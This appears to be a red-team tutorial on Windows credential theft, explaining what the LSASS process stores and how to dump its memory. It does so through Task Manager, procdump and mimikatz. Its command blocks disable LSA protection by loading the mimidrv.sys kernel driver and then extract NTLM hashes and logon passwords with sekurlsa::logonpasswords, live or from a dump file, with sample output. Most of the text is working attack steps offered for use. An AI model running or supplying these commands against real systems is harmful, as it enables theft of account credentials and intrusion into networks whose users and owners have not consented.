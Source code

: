 > What is Local Security Authority Subsystem Service?

Is a Windows **process** that handles the operating system security policy and enforces it on a system. It verifies logged in accounts and ensures passwords, hashes, and Kerberos tickets. Windows system stores credentials in the LSASS process to enable users to access network resources, such as file shares, SharePoint sites, and other network services, without entering credentials every time a user connects,Thus, the LSASS process is a juicy target for red teamers because it stores sensitive information about user accounts.<br>

Luckily for us, if we have **administrator privileges**, we can dump the process memory of **LSASS**. Windows system allows us to create a dump file, a snapshot of a given process.<br>

This could be done either with the Desktop access (GUI) or the command prompt.

**First: the GUI**

To dump any running Windows process using the GUI, open the Task Manager, and from the Details tab, find the required process, right-click on it, and select "Create dump file".<br>
Once the dumping process is finished, a pop-up message will show containing the path of the dumped file. Now copy the file and transfer it to our machine to extract NTLM hashes offline using **mimikatz**. 

**Second: the command prompt**
```
procdump.exe -accepteula -ma lsass.exe /path/to/mimikatz/folder
```
> note

If we try these two methods we will get an error indicating that the "access is denied" cuz Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory.<br>

Luckily for us, we will use **mimikatz** to disable this protection.
<br>
If we try to dump the creds from the **lsass** process using mimikatz we will get an error like this:
```       
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```
The command returns a 0x00000005 error code message (Access Denied).<br>

**Disable LSASS protection**

Mimikatz provides a **mimidrv.sys** driver that works on kernel level to disable the LSA protection. We can import it to Mimikatz by executing "**!+**" as follows:
```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```
Once the driver is loaded, we can disable the LSA protection by executing the following Mimikatz command:
```
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```       
Finally, we will be enable to dump the creds using **LSASS**.
> note

Mimikatz can operate in two modes for extracting credentials from the LSASS process:

1- Direct Access to LSASS (Live Mode):

Mimikatz can interact directly with the LSASS process in memory if you run it with sufficient privileges on the target system.
```
privilege::debug
sekurlsa::logonpasswords
```
2- Using a Dump File (Offline Mode):

If you have already created a dump of the LSASS process memory using tools like procdump, you can provide this dump file to Mimikatz for analysis.
```
sekurlsa::logonpasswords /dumpfile:C:\path\to\lsass_dump
```   
































